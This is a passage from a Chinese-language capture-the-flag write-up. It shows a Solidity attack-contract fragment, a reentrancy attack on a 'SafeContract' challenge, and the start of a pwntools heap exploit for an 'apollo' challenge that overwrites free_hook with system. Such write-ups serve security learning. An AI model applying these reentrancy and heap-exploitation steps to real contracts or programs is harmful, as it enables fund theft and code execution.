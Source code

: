 ```
   function step1()public`{`
       address(target).call(bytes4(0xebf0c717));
       address(target).call(bytes4(0xb8b8d35a),address(this));
   `}`
   function()payable`{`
       assembly`{`
           stop
       `}`
   `}`
`}`
```

### <a class="reference-link" name="SafeContract"></a>SafeContract

题目比较简单，主要是为了让

[![](https://p3.ssl.qhimg.com/t011ea41a6d4fb6226c.png)](https://p3.ssl.qhimg.com/t011ea41a6d4fb6226c.png)

这里成功变成1<br>
但是<br>
那么就只需要观察这里的转账 发现肯定是可以打 重入的

[![](https://p1.ssl.qhimg.com/t01f6729b0d8409c7a7.png)](https://p1.ssl.qhimg.com/t01f6729b0d8409c7a7.png)

那么基本就成了。

[![](https://p2.ssl.qhimg.com/t0194fd15c441ff7ef1.png)](https://p2.ssl.qhimg.com/t0194fd15c441ff7ef1.png)

可以发现这几种函数，我们只需要：
- 先随便 deposit()一个
- 然后fallback()写不断withdraw的
<li>最后调用withdraw()即可。<br>
不过 withdraw中有几个限制，比如先打的钱要比后打的多。<br>
只能打10次。注意调整数值即可。</li>
就可以打通了。

### <a class="reference-link" name="apollo"></a>apollo

先泄露libc基址，malloc出8个0xa0大小堆块并free掉，再重新malloc出一个，show得到地址。

然后当赛道上某处值为2或3就可向下移动2行，这意味着可以溢出到下一块相邻堆块的size字段。只需要将size改大，free掉再重新malloc就能够修改后面第二块堆块的fd，改free_hook分配出来改system即可。

exp:

```
from pwn import *
context.log_level='debug'

def add(row,col,size):
    payload=p8(42)+p8(row)+p8(col)+p8(size&amp;0xff)+p8((size&amp;0xff00)&gt;&gt;8)
    return payload

def free(row,col):
    payload=p8(47)+p8(row)+p8(col)
    return payload

def set_path(row,col,num):
    payload=p8(43)+p8(row)+p8(col)+p8(num)
    return payload

def set_zero(row,col):
    payload=p8(45)+p8(row)+p8(col)
    return payload
```